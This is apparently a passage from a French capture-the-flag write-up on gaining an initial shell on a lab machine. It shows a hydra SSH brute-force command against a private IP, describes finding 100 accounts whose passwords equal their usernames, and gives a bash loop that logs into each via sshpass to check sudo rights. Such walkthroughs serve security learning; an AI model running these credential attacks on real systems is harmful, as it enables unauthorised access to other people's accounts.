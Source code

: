 Deux informations très importantes apparaissent.                                                                                           
* La première est que le username est de la forme employee1 ou employee2 ou quelque chose dans ce style.
* La deuxième est que l'un des employés a les droits sudo.

* * *

## Shell basique

Je lance donc hydra pour tenter de bruteforce le mot de passe SSH : 

```bash
hydra -l employee1 -P /usr/share/wordlist/rockyou.txt 192.168.1.21 -t 4 ssh -s 22
```

A côté j'ai essayé des mots de passe potentiels à la main. Avec ~~beaucoup de~~ chance le premier que j'ai testé a fonctionné. Il s'agit de **employee1**.

Je me retrouve donc avec un shell basique sur la machine.

Dans le home directory il y a beaucoup de dossiers avec des sous-dossiers. Après avoir fait un ``ls -la -R .`` on se rend compte qu'il n'y a aucun fichier au fond de ceux-ci.

On peut s'apercevoir également qu'il y a beaucoup d'utilisateurs sur la machine en regardant le fichier ``/etc/passwd``.                                                        
En effet, on voit qu'il y a **100 utilisateurs** nommés employeeX avec X allant de 1 à 100.

Avec le message de la bannière qui dit qu'un utilisateur a les droits sudo, on devine rapidement qu'il faut trouver lequel des 100 utilisateurs possède ces droits.
Une possibilité est de tester tous les utilisateurs à la main mais ce serait trop long. 

J'ai essayé de me connecter à employee2 manuellement avec le même mot de passe que le username. On arrive à s'y connecter. Avec cette information on sait que tous les utilisateurs possèdent un mot de passe identique à leur nom d'utilisateur.

On peut donc écrire un petit script qui va se connecter au compte de l'utilisateur via SSH et exécuter la commande ``sudo -l`` pour voir s'il possède les droits suffisants :

```bash
#!/bin/bash

for i in {1..100}
do
	employee_number="employee$i"
	result=`sshpass -p $employee_number ssh -q -t $employee_number@192.168.1.21 "echo $employee_number | sudo -S -l"`
	#sshpass to give password through STDIN, -q for quiet, -t to execute commands with pseudo tty
	nb_words=`echo $result | wc -w`

	if (($nb_words > 10))
	then
		echo $employee_number
		exit
	fi

done
```
